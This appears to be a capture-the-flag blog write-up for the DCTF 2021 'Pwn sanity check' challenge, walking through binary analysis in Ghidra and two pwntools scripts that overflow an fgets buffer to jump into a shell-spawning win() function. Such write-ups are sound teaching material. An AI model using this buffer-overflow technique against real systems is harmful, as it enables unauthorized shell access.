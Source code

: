 ```yaml
---
title: Pwn sanity check
layout: post
author: v1per
date: 2021-05-17 18:53:00 +0530
type: Pwn
difficulty: easy
prompt: This should take about 1337 seconds to solve.nc dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io 7480
---
```


First, I used the file command on the **pwn_sanity_check** file. This is the output I got:

![](/images/v1per/dctfpsc1.png)

So, we know that it's a 64-bit LSB executable. Next, I opened the binary file usng **Ghidra**.
The main function looked like this:

![](/images/v1per/dctfpsc2.png)

I opened the **vuln()** function, and found this:

![](/images/v1per/dctfpsc3.png)

Here, I saw that the input is being taken using 'fgets' and stored in 'local_48'. Seeing this, the first thought which came to my mind was that this could be a buffer overflow challenge. In the next line I saw that if the value of 'local_c' is equal to '-0x21523f22', it prints out a text and calls the 'shell()' function. Let's open that:

![](/images/v1per/dctfpsc4.png)

It prints out that it is spawing the '/bin/sh process', but it doesn't really do anything except printing that. So, I guess that's a deadend.

Looking around further, I found a 'win()' function which looked interesting:

![](/images/v1per/dctfpsc5.png)

This function takes two parameters as input and compares their values and actually spawns a shell. Now, here I thought - what if we could bypass the if conditions and directly go to the 'system("/bin/sh");' line?  
I took note of the address of the line just before the line in which the shell was being spawned: **0x004006d6**

![](/images/v1per/dctfpsc6.png)

Now, we need to find the offset at which our control enters the win function, I used this python code to find it:

```py
from pwn import *

host='dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io'
port=7480

n=0
while(True):
	error=False
	payload=b'A'*n+p64(0x004006d6)

	r=remote(host,port)
	r.sendline(payload)
	r.recvline()
	r.recvline()

	try:
		s=r.recvline()
	except:
		error=True

	if error:
		print(n,'Trying...')
	else:
		print(n,'is the offset')
		break
	n+=1
```

From this script, the offset came out to be **72**. Now, it's time to finally find our flag.
I ran this script:

```py
from pwn import *

host='dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io'
port=7480

payload=b'A'*72+p64(0x004006d6)

r=remote(host,port)
r.sendline(payload)
r.interactive()
```

And, yay! I got the shell.
I typed in 'ls' and saw that there's a flag.txt file in there, so i did a 'cat flag.txt' and got the flag!  
```dctf{Ju5t_m0v3_0n}```

![](/images/v1per/dctfpsc7.png)
